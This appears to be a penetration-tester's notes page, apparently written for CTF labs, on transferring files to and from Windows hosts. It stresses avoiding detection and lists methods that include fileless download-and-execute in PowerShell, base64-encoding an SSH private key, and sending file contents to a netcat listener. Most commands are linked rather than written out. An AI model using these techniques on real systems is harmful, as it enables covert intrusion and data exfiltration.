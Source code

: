 # Windows File Transfer

## Table of Contents
```table-of-contents
exclude: /Table of Contents/i
minLevel: 2
style: nestedList
hideWhenEmpty: true
```

## Overview

For transferring files to/from Windows machines.

## Key Concepts

To avoid detection, it's recommended to try to use Windows-native tools to transfer files as much as possible.

## Downloading

### Powershell

#### Method 1: Base64 Encoding

> [!warning] While this method is convenient, it's not always possible to use. Windows Command Line utility (cmd.exe) has a maximum string length of 8,191 characters. Also, a web shell may error if you attempt to send extremely large strings. 

**Step 1:** Check the MD5 hash of the contents.
```bash
md5sum id_rsa
```

**Step 2:** Encode contents to base64 and copy it to clipboard.
```bash
cat id_rsa | base64 -w 0; echo
```

**Step 3:** On the Windows machine, decode the contents in your clipboard to a file.
![[powershell#^decode-base64-to-file]]

**Step 4:** Confirm the MD5 hash matches
![[powershell#^get-file-md5-hash]]

#### Method 2:  DownloadFile

Download a file to a specified location.
![[powershell#^downloadfile-method]]

#### Method 3:  DownloadString - Fileless

Download and execute a remote file in memory - filelessly!
![[powershell#^downloadstring-method-fileless]]

#### Method 4: Invoke-WebRequest

> [!warning]  `Invoke-WebRequest` is noticeably slower at downloading files than `(New-Object Net.WebClient).DownloadFile`

Download a file to a specified location.
![[powershell#^outfile-invoke-webrequest]]

#### Method 5: WinRM

**Step 1:** Test the WinRM connection to the Windows machine
![[powershell#^test-winrm-connection]]

**Step 2:** Create a new session
![[powershell#^new-pssession]]

**Step 3:** Copy the file from the remote Windows machine to the local Windows machine.
![[powershell#^from-transfer-winrm]]

### SMB

#### Method 1: impacket-smbserver

**Step 1:** Create an SMB server on the Linux machine
![[impacket-smbserver#^create-authenticated-smb-server]]

**Step 2:** Mount the SMB server
```powershell
net use n: \\192.168.220.133\share /user:test test
```

**Step 3:** Copy the file from the share to the Windows machine
```powershell
copy n:\<file>
```

### FTP

#### Method 1: pyftpdlib

**Step 1:** Create an FTP server with Python on the Linux machine
![[python#^create-ftp-server]]

**Step 2:** Download the files to the Windows machine
![[powershell#^downloadfile-method]]

### RDP

#### Method 1: Mounting

**Step 1:** RDP to the Windows machine and mount a folder on the Linux machine
![[xfreerdp#^mount-linux-folder]]

**Step 2:** Transfer files over the network.
![[Pasted image 20250614110909.png]]

## Uploading

### Powershell

#### Method 1: Base64 Encoding + Copying

**Step 1:** Check the MD5 hash of the contents.
![[powershell#^decode-base64-to-file]]

**Step 2:** Encode contents to base64 and copy it to clipboard.
![[powershell#^encode-file-contents-to-base64]]

**Step 3:** On the Linux machine, decode the contents in your clipboard to a file.
```bash
echo "base64 content" | base64 -d > hosts
```

**Step 4:** Confirm the MD5 hash matches.
```bash
md5sum id_rsa
```

#### Method 2: Base64 Encoding + Uploading

**Step 1:** Encode the file content to Base64 and save it to a variable.
![[powershell#^b64-file-content-variable]]

**Step 2:** Open a netcat listener on the Linux machine.
![[netcat#^open-listener]]

**Step 3:** Send the Base64 encoded file contents to the listener
![[powershell#^send-b64-post]]

#### Method 3: WinRM

**Step 1:** Test the WinRM connection to the Windows machine
![[powershell#^test-winrm-connection]]

**Step 2:** Create a new session
![[powershell#^new-pssession]]

**Step 3:** Copy the file from local Windows machine to remote Windows machine.
![[powershell#^to-transfer-winrm]]


### FTP

#### Method 1: pyftpdlib

**Step 1:** Create an FTP server with write permissions on the Linux machine.
![[python#^write-create-ftp-server]]

**Step 2:** Upload a file from the Windows machine.
![[powershell#^uploadfile-method]]

### HTTP

#### Method 1: uploadserver

Set up a webserver with upload page
![[python#^uploadserver]]

#### Method 2: wsgidav

**Step 1:** Create a WebDav share on the Linux machine
![[python#^wsgidav-create-share]]

**Step 2:** Connect to the share on the Windows machine
```powershell
dir \\192.168.49.128\DavWWWRoot
```

**Step 3:** Upload files from the Windows machine
```powershell
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\www\
```





## Practical Examples

Real-world scenarios where I've used this

## Gotchas & Troubleshooting

- Common issues I've encountered
- Things that break this technique
- Environment-specific considerations

## Related Techniques

- [[Similar-Technique]] - How they differ
- [[Follow-up-Technique]] - What comes next

## CTF Examples

```dataview
TABLE file.name as "Box", choice(contains(file.tags, "easy"), "🟢", choice(contains(file.tags, "medium"), "🟡", "🔴")) as "Diff"
FROM "06-CTF-Writeups" AND #windows-file-transfer
SORT file.ctime DESC
LIMIT 5
```

## Learning Resources

- 

#windows-file-transfer #technique